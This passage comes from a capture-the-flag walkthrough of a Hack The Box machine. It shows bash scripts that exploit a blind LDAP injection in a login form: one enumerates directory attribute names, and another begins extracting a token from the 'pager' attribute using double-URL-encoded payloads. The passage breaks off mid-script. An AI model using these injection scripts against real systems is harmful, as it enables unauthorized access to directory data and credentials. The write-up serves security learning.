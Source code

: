 ```bash
  | sed -r -e '34!d' -e 's/\s+<\/div>$//' \
  | rev \
  | cut -d ' ' -f1-2 \
  | rev \
  | tr -d '\n'
}

for attr in $(cat $LIST); do
  result=$(send_payload $attr)
  if [ "$result" == "Cannot login" ]; then
    echo "[+] Found: $attr"
  fi
done
```

Running the script against a LDAP attributes wordlist I found [here](https://github.com/droope/ldap-brute/blob/master/wordlists/attribute_names), this is what I got.

```
[+] Found: cn
[+] Found: commonName
[+] Found: gidNumber
[+] Found: homeDirectory
[+] Found: loginShell
[+] Found: mail
[+] Found: name
[+] Found: objectClass
[+] Found: pager
[+] Found: shadowLastChange
[+] Found: shadowMax
[+] Found: shadowMin
[+] Found: shadowWarning
[+] Found: sn
[+] Found: surname
[+] Found: uid
[+] Found: uidNumber
[+] Found: userPassword
```

At first, I thought the token string is in the userPassword attribute. However, this attribute has a OctetString type which makes it an unlikely candidate. It turns out that `pager` is the attribute storing the token string. To that end, I re-purpose the previous script to exfiltrate the digits one by one until I have the full 81-digit token string.

<div class="filename"><span>deduction.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.122
TOKEN=""

# urlencode
function urlencode() {
  echo -n "$1" \
  | xxd -p \
  | tr -d '\n' \
  | sed -r 's/(..)/%\1/g'
}

# send payload
function send_payload() {
  local query="*)(pager=XXX*"
  local payload="${query/XXX/$1}"
  local payload="$(urlencode $payload)"
  local payload="$(urlencode $payload)"
```

[1]: https://www.hackthebox.eu/home/machines/profile/172
[2]: https://www.hackthebox.eu/home/users/profile/13340
[3]: https://www.hackthebox.eu/
